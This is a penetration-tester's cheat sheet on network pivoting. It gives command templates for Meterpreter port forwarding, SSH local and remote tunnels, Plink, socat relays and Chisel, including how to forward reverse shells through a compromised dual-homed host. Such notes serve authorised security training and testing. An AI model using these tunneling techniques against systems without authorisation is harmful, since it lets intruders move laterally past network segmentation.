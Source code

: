 ```yaml
---
layout: default
title: Pivoting
tags:
    - chisel
    - meterpreter
    - proxychains
    - ssh
    - tunneling
---
```

# Pivoting
## Metasploit
With meterpreter session on dual homed machine
```shell
portfwd add -l [LOCAL PORT] -p [TARGET PORT] -r [TARGET IP]
```
- `-R` for reverse
```shell
portfwd list  # List
```
```shell
portfwd flush  # Clear
```

## SSH Tunneling
From within SSH session `~C` to access options, otherwise restructure as `ssh [TUNNELING COMMANDS] user@10.10.10.10`

### Local forwarding
```shell
-L [LOCAL PORT]:[TARGET IP]:[REMOTE PORT]
```
- Forwards a local port to a remote `ip:port`

![local forwarding](../ssh-local.png)

![local forwarding](../ssh-local2.png)
- see references

### Remote forwarding
```shell
-R [REMOTE PORT]:[TARGET IP]:[TARGET PORT]
```
- Forwards a remote port to a `ip:port` reachable by you (may be `localhost`)

![remote forwarding](../ssh-remote.png)

![remote forwarding](../ssh-remote2.png)

### SSH from remote to local machine
If you don't have an SSH session, create an SSH session with your machine
- Create local user
```shell
useradd -M pentest  # no home directory
usermod -L pentest  # lock account
usermod -s /bin/false pentest  # set shell to /bin/false
service ssh start
```
- Open SSH session from remote host 
```shell
ssh -R [REMOTE PORT]:[TARGET IP]:[KALI PORT] pentest@10.10.10.10
```

## Plink (PuTTY Link)
Locally
```shell
service ssh start
```
- Transfer `/usr/share/windows-binaries/plink.exe` to target

Remotely
```shell
plink.exe [SSH IP] -P 22 -C -N -L [LOCAL PORT]:[TARGET IP]:[REMOTE PORT] -l user -pw pass  # Local
plink.exe [SSH IP] -P 22 -C -N -R [REMOTE PORT]:[TARGET IP]:[TARGET PORT] -l user -pw pass  # Remote
```

## SOCAT (Linux)
On dual-homed host
```shell
socat TCP4-LISTEN:[LOCAL PORT],fork TCP4:[TARGET IP]:[TARGET PORT]
```
- Forwards `[LOCAL PORT]` to `[TARGET IP]:[TARGET PORT]`

## Chisel
- SSH, but reversed; you are the Chisel server, remote host is the client

### Local Pivot
- Remote port (client) -> local port (server)
- We are listening (we are the server)
- Useful for forwarding reverse shells from remote host to our machine

Run locally (server)
```shell
chisel server -p [LISTEN PORT]
```

Run remotely (client)
```shell
chisel client [SERVER IP]:[SERVER PORT] [TUNNEL LISTEN PORT ON CLIENT]:[TUNNEL TARGET]:[TUNNEL PORT]
```

### Reverse Pivot
- Local port (server) -> remote port (client)
- We are listening (we are the server)
- Useful for reaching machines through a remote host

Run locally (server)
```shell
chisel server -p [LISTEN PORT] -reverse
```

Run remotely (client)
```shell
chisel client [SERVER IP]:[SERVER PORT] R:[TUNNEL LISTEN PORT ON SERVER]:[TUNNEL TARGET]:[TUNNEL PORT]
```

# References
- <https://raw.githubusercontent.com/21y4d/Notes/master/Pivoting.txt>
- <https://www.bogotobogo.com/Linux/linux_Secure_Shell_SSH_V_ssh_Reverse_SSH_Tunnel_Remote_Port_Forwarding.php>
    - All credit for SSH tunelling diagrams goes here; they are simply too good to pass up
- <https://www.youtube.com/watch?v=Yp4oxoQIBAM>